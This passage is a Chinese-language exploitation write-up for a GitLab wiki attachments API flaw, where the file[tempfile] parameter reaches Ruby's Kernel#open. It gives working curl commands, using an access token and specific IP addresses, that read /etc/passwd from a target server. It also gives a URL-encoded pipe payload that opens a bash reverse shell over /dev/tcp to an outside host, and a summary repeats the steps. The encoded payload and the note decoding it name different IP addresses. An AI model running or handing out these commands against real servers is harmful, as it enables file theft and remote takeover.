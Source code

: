 -----------------


# 0x02 利用前提

这个漏洞需要 `private_token` 和身份认证，利用门槛高。

Access Token 在生成 Private Token 的时候，必须要在 Scopes 里面勾选了 `api`，否则 token 权限会不够！

![title](https://leanote.com/api/file/getImage?fileId=5eb3d947ab64410180023256)

---------------


# 0x03 漏洞利用

**查看 /etc/passwd：**

```
root@hack:~# curl -H "private-token:pyLXE32y3Ab6va9p6mAA" 47.56.208.67/api/v4/projects/1/wikis/attachments -d "file[tempfile]=/etc/passwd&file[filename]=123"  && echo

{"file_name":"123","file_path":"uploads/8ee12d5754d27f89306b51a80ccc612a/123","branch":"master","link":{"url":"uploads/8ee12d5754d27f89306b51a80ccc612a/123","markdown":"[123](uploads/8ee12d5754d27f89306b51a80ccc612a/123)"}}

root@hack:~# curl -H "private-token:pyLXE32y3Ab6va9p6mAA" 47.56.208.67/root/test/wikis/uploads/8ee12d5754d27f89306b51a80ccc612a/123 && echo
```
![title](https://leanote.com/api/file/getImage?fileId=5eb27f79ab64413a21067dab)


**反弹 shell:**

```
curl -H "private-token:pyLXE32y3Ab6va9p6mAA" 47.56.208.67/api/v4/projects/1/wikis/attachments -XPOST -d 'file[filename]=123&file[tempfile]=%7c+bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f47.244.253.36%2f9999+0%3e%261%22' && echo
```

>注：`
%7C+bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F47.56.208.67%2F9999+0%3E%261%22`即为 URL 编码的反弹 shell 命令 `| bash -c "bash -i >& /dev/tcp/47.56.208.67/9999 0>&1"`，注意这里一定需要管道符号来使用 Ruby 的`Kernel#open`函数产生子流程。

![title](https://leanote.com/api/file/getImage?fileId=5eb291ccab64413c2206a293)

**总结：**

```
# 目标项目 URL
http://47.56.208.67/root/test

# 验证 Private_token
http://47.56.208.67/api/v4/projects?private_token=pyLXE32y3Ab6va9p6mAA

# /wikis/attachments restful 路径
http://47.56.208.67/root/test/wikis/attachments


# 查看 /etc/passwd 的第一个 API 请求，将在响应数据中获取 file_path 的值，用于构造查看 /etc/passwd 的第二个 API 请求
curl -H "private-token:pyLXE32y3Ab6va9p6mAA" 47.56.208.67/api/v4/projects/1/wikis/attachments -d "file[tempfile]=/etc/passwd&file[filename]=123"  && echo

# 查看 /etc/passwd 的第二个 API 请求，注意是 GET 方法
curl -H "private-token:pyLXE32y3Ab6va9p6mAA" 47.56.208.67/root/test/wikis/uploads/8ee12d5754d27f89306b51a80ccc612a/123 && echo

```